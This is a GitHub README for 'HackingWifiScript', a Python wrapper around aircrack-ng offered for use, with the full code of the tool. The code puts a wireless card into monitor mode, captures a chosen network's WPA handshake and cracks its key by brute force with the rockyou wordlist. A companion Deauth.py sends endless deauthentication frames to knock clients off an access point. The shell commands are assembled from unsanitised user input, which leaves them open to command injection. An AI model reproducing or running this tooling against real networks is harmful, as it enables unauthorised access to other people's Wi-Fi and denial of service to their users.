 # HackingWifiScript
This script written in python3 was created for simplified brute force scanning using the aircrack-ng utility.<br><br>
__You can look at the repository where everything is described in detail. <a href="https://github.com/John-MetrosSoftware/HackingWifi">Link</a>.__
## Installation for python3
### Libraries
- <a href="https://pypi.org/project/prompt-toolkit/0.5/">prompt_toolkit</a>

```
git clone https://github.com/John-MetrosSoftware/HackingWifiScript
cd HackingWifiScript
pip3 install prompt_toolkit
python3 HackingWifiScript.py
```

## Installation aircrack-ng
```
sudo apt install aircrack-ng
```


## HackingWifiScript.py

### Imports
```python3
import os
import sys
from prompt_toolkit import prompt
```

### Scanning 
```python3
def scan_wifi(): 
    # Removing redundant processes
    os.system('sudo airmon-ng check kill')

    # Display network devices
    os.system('sudo airmon-ng')

    # Display the name of the network device (default: wlan0)
    device = prompt('Device [wlan0]: ')
    if device.replace(' ', '') == '':device = 'wlan0'

    # Switching network device to monitor mode
    os.system('sudo airmon-ng start {}'.format(device))

    # Start scanning wifi networks
    os.system('sudo airodump-ng {}'.format(device))

    # Handshake name
    cap = prompt('Handshake name: ')
    if cap.replace(' ', '') == '':
        print('Error! You did not enter the name of the handshake. ({}).'.format(cap))
        while True:
            cap = prompt('Handshake name: ')
            if cap.replace(' ', '') != '':
                break

    # Access point channel
    cannel = prompt('Cannel: ')
    if cannel.replace(' ', '') == '':
        print('Error! You have not entered a channel. ({}).'.format(cannel))
        while True:
            cannel = prompt('Cannel: ')
            if cannel.replace(' ', '') != '':
                break

    # Access point bssid
    bssid = prompt('Bssid: ')
    if bssid.replace(' ', '') == '':
        print('Error! You did not enter bssid. ({}).'.format(bssid))
        while True:
            bssid = prompt('Bssid: ')
            if bssid.replace(' ', '') != '':
                break

    # Running a specific wifi network scan
    os.system('sudo airodump-ng -w {} -c {} --bssid {} {}'.format(cap, cannel, bssid, device))
```

### Bruteforce
```python3
def brute_force():
    while True:
        # Handshake input
        cap = prompt('Handshake name: ')  
        if cap.replace(' ', '') == '':
            print('Error! You did not enter the name of the handshake. ({})'.format(cap))
            while True:
                cap = prompt('Handshake name: ')
                if cap.replace(' ', '') != '':
                    break

        # Getting a dictionary file
        if os.path.isfile(cap) == True:
            list_ = prompt('List [/usr/share/wordlists/rockyou.txt]: ')
            if list_.replace(' ', '') == '':
                list_ = '/usr/share/wordlists/rockyou.txt'
            break
        else:
            print('Error! Could not find handshake file. ({}).'.format(cap))

    # Bruteforce
    os.system('aircrack-ng {} -w {}'.format(cap, list_))
```

### Main
```python3
def main():
    os.system('clear || cls')
    print('1. Scanning\n2. Bruteforce\n3. Exit\n')
    select = prompt('Select menu item $ ')
    if select == '1':
        scan_wifi()
    elif select == '2':
        brute_force()
    elif select == '3':
        sys.exit()
    else:
        print('Invalid parameter: \'{}\''.format(select))
```

### Init
```python3
if __name__ == '__main__':
    while True:
        try:
            main()
        except Exception as error:
            print('Error: {}'.format(error))
```

## Deauth.py
### Imports
```python3
import os
import sys
```

### Main
```python3
def main():
    os.system('sudo aireplay-ng --deauth 0 -a {} {}'.format(str(sys.argv[1]), str(sys.argv[2])))
```

### Init
```python3
if __name__ == '__main__':
    try:
        sys.argv[1]
        sys.argv[2]
    except:
        print('Error! Not enough launch options.')
        sys.exit()
    main()
```

 

## Compilation
I usually compile my projects using the <a href="https://pypi.org/project/pyinstaller/">pyinstaller</a> compiler with the following parameters:
```
pyinstaller -F HackingWifiScript.py
pyinstaller -F Deauth.py
```

When making edits in the code or other changes, mark the author I want to know how the project is developing.
## PEP8
<a href="https://pypi.org/project/autopep8/">autopep8</a> automatically formats Python code to conform to the PEP 8 style guide. It uses the pycodestyle utility to determine what parts of the code needs to be formatted. autopep8 is capable of fixing most of the formatting issues that can be reported by pycodestyle.
```
autopep8 HackingWifiScript.py --recursive --in-place
autopep8 Deauth.py --recursive --in-place
```
## Developer 
Telegram : https://t.me/metrossoftware
